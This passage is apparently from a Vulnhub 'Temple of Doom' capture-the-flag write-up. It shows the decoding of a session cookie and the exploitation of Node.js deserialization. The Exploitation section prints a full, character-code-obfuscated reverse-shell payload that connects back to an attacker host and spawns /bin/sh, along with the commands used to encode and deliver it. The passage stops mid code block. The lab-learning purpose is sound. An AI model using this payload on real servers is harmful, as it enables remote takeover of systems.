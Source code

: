   <img src="https://github.com/astasinos/Writeups/blob/master/Vulnhub/Temple%20of%20Doom/images/5.jpg?raw=true" height="300px">

**We have a shell!**. Now we have to do the same on the remote machine.

* Let's refresh the site and capture the request in **Burp Suite**.

  <img src="https://github.com/astasinos/Writeups/blob/master/Vulnhub/Temple%20of%20Doom/images/6.jpg?raw=true">

We notice a cookie named **_profile_**, and it's value looks base64 encoded. Using burp we can **first** url-decode and **then** base64-decode the cookie resulting in:

  <img src="https://github.com/astasinos/Writeups/blob/master/Vulnhub/Temple%20of%20Doom/images/7.jpg?raw=true">

We can see the cookie is actually the **object**
```javascript
{"username":"Admin","csrftoken":"u32t4o3tb3gg431fs34ggdgchjwnza0l=","Expires=":Friday, 13 Oct 2018 00:00:00 GMT"}
```

**Bonus:** Notice that the last value is not properly formatted and needs an extra `"`. Fix the object syntax, base64 encode it, then url-encode and include it in the request. You will be greeted with:

  <img src="https://github.com/astasinos/Writeups/blob/master/Vulnhub/Temple%20of%20Doom/images/8.jpg?raw=true">

This doesn't help us in anyway.

## Exploitation
---

* Using **nodejsshell.py**, we create a reverse shell payload with `python nodejsshell.py 10.0.2.15 1337`. Copy the resulting code and put it in an object like we saw earlier in the local tests. 

```javascript
{"rce":"_$$ND_FUNC$$_function () { eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,49,48,46,48,46,50,46,49,53,34,59,10,80,79,82,84,61,34,49,51,51,55,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10))}()"};
```
* Now we will base-64 encode it and copy it to our clipboard using xclip. 
  ``` cat exploit.js | base64 | xclip -selection clipboard```

  ```